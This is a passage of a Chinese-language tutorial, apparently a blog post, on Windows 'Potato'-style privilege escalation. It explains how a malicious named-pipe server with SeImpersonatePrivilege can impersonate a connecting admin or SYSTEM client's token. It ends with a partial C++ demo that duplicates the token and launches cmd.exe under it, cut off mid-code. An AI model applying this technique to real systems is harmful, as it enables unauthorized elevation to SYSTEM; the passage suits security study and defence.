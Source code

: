 通过调用ImpersonateNamedPipeClient()，命名管道服务端可以模拟命名管道客户端的安全上下文，**从而直接将命名管道服务端当前线程的Token令牌更改为命名管道客户端的Token令牌**，关键就在这。

再看MSDN对它的附注，和所有模拟函数（包括ImpersonateNamedPipeClient）一样，它需要满足以下条件之一：	

1. 令牌的请求模拟级别低于SecurityImpersonation，例如SecurityIdentification或SecurityAnonymous。
2. **调用者具有SeImpersonatePrivilege权限**。
3. 通过LogonUser或LsaLogonUser函数，一个进程（或调用者登录会话中的另一个进程）使用明确凭据创建了令牌。
4. 验证的身份与调用者相同。 Windows XP与SP1及更早版本：不支持SeImpersonatePrivilege权限。

这也是中后期土豆都需要SeImpersonatePrivilege权限的原因，需要这个特权才能成功调用至关重要的ImpersonateNamedPipeClient() api函数。

因此，如果我们自己创建一个恶意的命名管道服务端，并且一个具有管理员（甚至是System权限）权限的管道客户端连接到我们的管道服务端，理论上我们就可以模拟管理员用户的权限。



# 实现命名管道客户端模拟

介绍几个会使用的Win API

* GetCurrentProcess()  返回值是当前进程的伪句柄。

* OpenProcessToken() 打开与进程关联的访问令牌（Access Token），返回访问令牌的句柄的指针

* DuplicateToken() or DuplicateTokenEx() 创建一个新的访问令牌，该令牌复制已存在的[访问令牌](https://learn.microsoft.com/en-us/windows/desktop/SecGloss/a-gly)

* CreateProcessWithTokenW()  创建新进程及其主线程。新进程在**指定**令牌的安全上下文中运行。

* **ImpersonateNamedPipeClient()** 参上详细介绍

Demo代码实现如下

```c++
#include <iostream>
#include <Windows.h>
#include <stdlib.h>
#include <stdio.h>
#include <sddl.h>

using namespace std;

void ImpersonatedUser(HANDLE hToken)
{
    DWORD dwCreationFlags = 0;
    dwCreationFlags = CREATE_UNICODE_ENVIRONMENT;
    BOOL g_bInteractWithConsole = TRUE;
    LPWSTR pwszCurrentDirectory = NULL;
    dwCreationFlags |= g_bInteractWithConsole ? 0 : CREATE_NEW_CONSOLE;
    LPVOID lpEnvironment = NULL;
    PROCESS_INFORMATION pi = { 0 };
    STARTUPINFO si = { 0 };
    HANDLE hSystemTokenDup = INVALID_HANDLE_VALUE;

    DuplicateTokenEx(hToken, TOKEN_ALL_ACCESS, NULL, SecurityImpersonation, TokenPrimary, &hSystemTokenDup);
    CreateProcessWithTokenW(hSystemTokenDup, LOGON_WITH_PROFILE, NULL, L"cmd.exe", dwCreationFlags, lpEnvironment, pwszCurrentDirectory, &si, &pi);
    return;
}

int wmain(int argc, wchar_t* argv[])
{
    LPWSTR pwszPipeName = argv[1];
    TOKEN_GROUPS* group_token = NULL;
    HANDLE hPipe = INVALID_HANDLE_VALUE;
    HANDLE hToken = INVALID_HANDLE_VALUE;
    SECURITY_DESCRIPTOR sd = { 0 };
    SECURITY_ATTRIBUTES sa = { 0 };
```